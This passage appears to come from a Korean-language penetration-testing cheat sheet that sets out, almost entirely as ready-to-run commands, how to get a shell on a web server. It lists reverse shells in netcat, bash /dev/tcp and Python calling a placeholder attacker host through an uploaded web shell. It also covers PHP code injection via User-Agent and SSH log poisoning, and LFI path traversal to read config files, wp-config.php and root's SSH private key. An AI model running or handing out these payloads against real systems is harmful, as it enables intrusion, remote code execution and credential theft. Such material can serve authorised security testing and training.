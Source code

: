 ### 📱 모바일/다른 기기 시뮬레이션

```bash
# 모바일 User-Agent
curl -A "Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)" http://{IP}/

# 다른 브라우저 시뮬레이션
curl -A "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" http://{IP}/
```

---

## 🔗 쉘 획득 전략

### 🐚 웹쉘 통한 리버스쉘

```bash
# 1. 웹쉘 업로드 성공 후
curl "http://{IP}/uploads/shell.php?cmd=which nc"

# 2. netcat으로 리버스쉘
nc -lvnp 4444
curl "http://{IP}/uploads/shell.php?cmd=nc {ATTACKER_IP} 4444 -e /bin/bash"

# 3. netcat 없으면 bash 리버스쉘
curl "http://{IP}/uploads/shell.php?cmd=bash -i >& /dev/tcp/{ATTACKER_IP}/4444 0>&1"

# 4. Python 리버스쉘
curl "http://{IP}/uploads/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ATTACKER_IP}\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

### 📂 LFI를 통한 쉘 획득

```bash
# 1. 로그 포이즈닝 (Apache)
curl -A "<?php system(\$_GET['cmd']); ?>" http://{IP}/
curl "http://{IP}/page.php?file=../../../var/log/apache2/access.log&cmd=id"

# 2. SSH 로그 포이즈닝 (auth.log가 읽힌다면)
ssh '<?php system($_GET["cmd"]); ?>'@{IP}
curl "http://{IP}/page.php?file=../../../var/log/auth.log&cmd=id"

# 3. /proc/self/environ 활용
curl -A "<?php system(\$_GET['cmd']); ?>" http://{IP}/page.php
curl "http://{IP}/page.php?file=/proc/self/environ&cmd=id"
```

### 🗄️ 설정 파일을 통한 정보 수집

```bash
# 데이터베이스 설정 파일
curl "http://{IP}/page.php?file=../../../var/www/html/config.php"
curl "http://{IP}/page.php?file=../../../var/www/html/wp-config.php"
curl "http://{IP}/page.php?file=../../../var/www/html/configuration.php"

# SSH 키 파일
curl "http://{IP}/page.php?file=../../../home/user/.ssh/id_rsa"
curl "http://{IP}/page.php?file=../../../root/.ssh/id_rsa"

# 크론탭 확인
curl "http://{IP}/page.php?file=../../../etc/crontab"
curl "http://{IP}/page.php?file=../../../var/spool/cron/crontabs/root"
```
